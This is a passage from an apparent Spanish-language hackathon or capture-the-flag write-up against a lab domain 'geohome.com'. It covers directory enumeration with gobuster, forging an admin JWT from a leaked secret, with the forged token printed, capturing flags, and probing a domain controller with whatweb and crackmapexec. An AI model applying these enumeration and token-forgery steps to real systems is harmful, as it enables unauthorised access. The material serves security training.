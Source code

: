 Por el momento este servicio queda descartado.

Con esto vemos los directorios que puedan existir:
`gobuster dir -u http://geohome.com:5000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
![Image](Pasted%20image%2020220521172645.png?raw=true)

En esta aplicación vemos en primer lugar que su servidor se ejecuta bajo python, además que las rutas coinciden parcialmente con las rutas con las que la API encontrada en github son documentadas. Si entramos en la ruta "whoami"
![Image](Pasted%20image%2020220521175217.png?raw=true)

Así que con el secreto que encontramos antes vamos a intentar crear un token JWT de autorización:
![Image](Pasted%20image%2020220521175345.png?raw=true)
![Image](Pasted%20image%2020220521175425.png?raw=true)

Y con esto creamos una petición con dicho secreto:
![Image](Pasted%20image%2020220521175516.png?raw=true)
Con esto estamos logueados como el usuario "123456789" pero no queremos eso, queremos ser admin, así pues nos vamos a la generación del token y cambiamos el usuario por "admin" y el token generado termina siendo:
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJhZG1pbiIsIm5hbWUiOiJKb2huIERvZSIsImlhdCI6MTUxNjIzOTAyMn0.M5bdLayt2SgbV_JsoRu5zc2TD5qy3Ie33JZrFcXyqLM
```
![Image](Pasted%20image%2020220521181314.png?raw=true)
Y tenemos una nueva flag:
>API_FLAG{Never_public_your_secret}


**5985/tcp - Microsoft HTTPAPI httpd 2.0**
```text
(base) ┌──(kali㉿kali)-[~/Desktop/Hackathon]
└─$ whatweb http://geohome.com:5985
http://geohome.com:5985 [404 Not Found] Country[RESERVED][ZZ], HTTPServer[Microsoft-HTTPAPI/2.0], IP[172.16.54.182], Microsoft-HTTPAPI[2.0], Title[Not Found]
```

5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0



## FLAG 4 - FLAG{Buen_Password_Spraying_Eh?}

#### Active Directory

```
base) ┌──(kali㉿kali)-[~/Desktop/Hackathon]
└─$ crackmapexec smb 172.16.54.182 -u anonymous                                                
SMB         172.16.54.182   445    GEOHOME-DC       [*] Windows 10.0 Build 17763 x64 (name:GEOHOME-DC) (domain:geohome.com) (signing:True) (SMBv1:False)

```
